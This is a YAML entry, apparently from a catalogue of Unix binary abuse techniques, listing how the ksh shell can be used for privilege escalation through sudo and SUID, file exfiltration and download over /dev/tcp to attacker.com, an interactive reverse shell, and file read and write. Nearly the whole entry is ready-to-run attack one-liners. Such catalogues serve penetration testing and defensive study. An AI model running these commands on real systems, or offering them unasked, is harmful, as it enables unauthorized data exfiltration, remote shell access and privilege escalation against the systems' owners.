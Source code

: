 ```yaml
---
functions:
  execute-interactive:
    - code: ksh
  sudo-enabled:
    - code: sudo ksh
  suid-enabled:
    - code: ./ksh -p
  upload:
    - description: Send local file in the body of an HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'echo -e "POST / HTTP/0.9\n\n$(cat $LFILE)" > /dev/tcp/$RHOST/$RPORT'
    - description: Send local file using a TCP connection. Run `nc -l -p 12345 > "file_to_save"` on the attacker box to collect the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_send
        ksh -c 'cat $LFILE > /dev/tcp/$RHOST/$RPORT'
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c '{ echo -ne "GET /$LFILE HTTP/1.0\r\nhost: $RHOST\r\n\r\n" 1>&3; cat 0<&3; } \
            3<>/dev/tcp/$RHOST/$RPORT \
            | { while read -r; do [ "$REPLY" = "$(echo -ne "\r")" ] && break; done; cat; } > $LFILE'
    - description: Fetch remote file using a TCP connection. Run `nc -l -p 12345 < "file_to_send"` on the attacker box to send the file.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        export LFILE=file_to_get
        ksh -c 'cat < /dev/tcp/$RHOST/$RPORT > $LFILE'
  reverse-shell-interactive:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        ksh -c 'ksh -i > /dev/tcp/$RHOST/$RPORT 2>&1 0>&1'
  file-read:
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c 'echo "$(<$LFILE)"'
    - description: It trims trailing newlines.
      code: |
        export LFILE=file_to_read
        ksh -c $'read -r -d \x04 < "$LFILE"; echo "$REPLY"'
  file-write:
    - code: |
        export LFILE=file_to_write
        ksh -c 'echo data > $LFILE'
---
```

